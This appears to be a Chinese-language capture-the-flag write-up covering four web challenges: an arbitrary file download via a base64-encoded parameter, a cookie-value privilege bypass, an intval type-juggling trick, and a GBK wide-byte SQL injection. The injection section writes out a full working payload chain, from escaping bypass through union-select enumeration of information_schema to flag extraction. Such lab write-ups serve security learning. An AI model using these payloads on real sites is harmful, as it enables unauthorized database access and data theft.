 ### Download~!
典型任意文件下载，file参数值进行base64加密后，直接下载download.php
审计后，发现白名单过滤，发现还能下载一个文件
下载，得到flag
<Br />

### COOKIE
提示很明显，访问页面开始给用户设置`Cookie，Login=0`
再次访问提示类型权限不足，抓包修改`Cookie，Login=1`
绕过，得到flag
<Br />

### MYSQL
根据提示的robots.txt文件中，看见sql.php源码
```php
if($_GET[id]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
```
审计后得知，满足两个条件
 - `intval($_GET[id])=1024`
 - `$_GET[id]!=1024`

即可得到flag
```
url?id=1024.1 //payload

1024.1被强转之后变为1024，放入sql语句中可以得到数据
同时1024.1!=1024
```
<Br />

### GBK Injection
题目提示的很明显，页面也没有设置任何编码格式，即为默认的GBK
页面也显示了SQL语句
首先先确认注入点

```
url?id=1' // 页面回显信息正常，发现'被转义为\'，根据GBK编码，尝试宽字节绕过
url?id=1%df' // 页面出现报错信息，并且转移函数绕过成功，继续确认
url?id=1%df' or 1 %23 // 页面回显正常，并且没有过滤# 与 or和空格，注入点确定
```
开始得到数据
```
url?id=1%df' order by 2 %23 // order by 3页面报错，order by 2页面正常，确认为2列
url?id=1%df' and 0 union select 1,2 %23 //第二列数据可直接查看
url?id=1%df' and 0 union select 1,database() %23 //sae-chinalover
url?id=1%df' and 0 union select 1,group_concat(table_name) from information_schema.tables where table_schema =  0x7361652d6368696e616c6f766572 %23 // ctf,ctf2,ctf3,ctf4,news
url?id=1%df' and 0 union select 1,group_concat(column_name) from information_schema.columns where table_name =  0x63746634 %23 //id,flag
url?id=1%df' and 0 union select id,flag from ctf4 %23 // nctf{*****}
```
<Br />
